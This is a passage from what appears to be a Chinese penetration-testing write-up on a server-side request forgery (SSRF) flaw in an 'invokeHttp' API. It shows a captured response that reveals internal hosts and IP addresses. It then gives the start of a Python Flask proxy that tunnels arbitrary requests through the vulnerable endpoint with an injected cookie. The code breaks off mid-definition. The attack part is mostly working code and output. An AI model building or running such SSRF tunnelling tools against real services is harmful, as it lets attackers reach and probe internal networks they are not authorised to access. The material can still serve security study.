 ~~~http
响应包:
HTTP/1.1 200 OK
Server: openresty
Date: Sun, 31 Jan 2021 15:57:57 GMT
Content-Type: application/json;charset=UTF-8
Content-Length: 244
Connection: close
Access-Control-Allow-Origin: http://poc-intest.xx.com
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 0
Access-Control-Allow-Headers: Authorization,Origin, No-Cache, XRequested-With, If- Modified-Since, Pragma, Last-Modified, Cache-Control,
Expires, Content-Type, X-E4M- With,userId,token
Access-Control-Allow-Credentials: true
XDomainRequestAllowed: 1
Expires: Sun, 31 Jan 2021 15:57:57 GMT
Cache-Control: max-age=0

{"code":1,"data":"Http Get| url:http://info.xx.com/ |
e:org.apache.http.conn.HttpHostConnectException: Connect to
info.xx.com:80 [info.xx.com/172.26.202.55, info.xx.com/172.26.202.48]
failed: "","message":"访问成功"}
~~~

其中data字段就是调⽤接⼝以后返回的响应包 

通过这个⼀点,我们就可以⾃⼰构造⼀下,写出⼀个基于python的代理出来代码如下: 

~~~python
# -*- coding: utf-8 -*-
import requests
import json
from flask import Flask, request, Response, make_response
from urllib.parse import urlparse
from os.path import splitext, basename
app = Flask(__name__)
def get_filetype(url):
    content_type = 'text/html'
    response_mimetype = {
        '.png': 'image/png',
        '.js': 'application/javascript',
        '.jpg': 'image/jpeg',
        '.gif': 'image/gif',
        '.jpeg': 'image/jpeg',
        '.ico': 'image/x-icon',
        '.css': 'text/css',
        '.svg': 'image/svg+xml',
   }
    disassembled = urlparse(url)
    filename, file_ext = splitext(basename(disassembled.path))
    content_type = response_mimetype.get(file_ext, 'text/html')
    return content_type
@app.before_request
def before_request():
    proxies = {'http': '127.0.0.1:8080', 'https': '127.0.0.1:8080'}
    data = request.data or request.form or ''
    dest_url = 'http://api.xxx.com/api/invokeHttp'
    ssrfhd = {"header": "cookie",
              "value": "username.test=ext.bmw.test;"}
    ssrfhedlist = []
    filist = []
    ssrfhedlist.append(ssrfhd)
    dest_data = {
        'url':  request.url,
~~~
